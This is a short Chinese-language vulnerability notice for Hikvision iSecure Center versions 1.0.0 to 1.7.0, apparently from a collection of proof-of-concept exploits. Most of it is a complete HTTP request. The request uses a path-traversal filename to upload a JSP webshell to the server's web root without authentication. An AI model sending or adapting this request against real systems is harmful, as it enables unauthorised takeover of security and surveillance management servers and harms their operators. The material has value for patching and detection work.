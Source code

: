 #### 影响范围

iSecure Center V1.0.0 - V1.7.0

#### 漏洞概述

海康威视股份有限公司是⼀家专业从事视频监控产品的研发、⽣产和销售的 ⾼科技企业。 海康威视iSecure Center综合安防管理平台软件存在⽂件上传漏洞，未经授权的攻击者可以上传恶意Webshell ⽂件从⽽控制服务器

#### 漏洞复现

漏洞POC：

```
POST /svm/api/external/report HTTP/1.1
Host: x.x.x.x
Content-Length: 238
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Origin: null
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary9PggsiM755PLa54a
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site 
Sec-Fetch-Mode: navigate 
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8 
Connection: close

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../tomcat85linux64.1/webapps/els/static/webshellname.jsp" 
Content-Type: application/zip

shell
------WebKitFormBoundary9PggsiM755PLa54a--
```



